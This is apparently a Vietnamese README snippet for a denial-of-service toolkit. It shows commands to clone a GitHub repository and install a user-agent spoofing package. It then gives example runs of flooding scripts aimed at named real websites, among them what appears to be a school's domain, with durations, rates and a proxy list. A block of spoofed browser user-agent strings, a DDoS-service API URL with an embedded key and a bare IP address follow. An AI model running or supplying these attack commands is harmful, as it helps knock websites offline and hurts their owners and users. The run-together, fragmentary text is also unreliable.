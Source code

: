 Lệnh SETUP & RUN

git clone https://github.com/phantrungtruc/jukiee.git

cd jukiee

npm i fake-useragent

VÍ DỤ :

node HTTPS-BYPASSv2.js http://thptcangiuoc.edu.vn/ 60 6 sss.txt

node skynet.js https://chinese.com.vn/ 60 50 6 sss.txt

node HTTP-DOWN.js url 60 10 6 sss.txt

Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1

Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1 Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Version/14.0.3 Safari/537.36 Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

https://thanhdieu.com/API/api-ddos.php?key=thanhdieu_xjEin&port=443&time=70&method=[method]&host=[host]

http://149.18.62.53:30120/
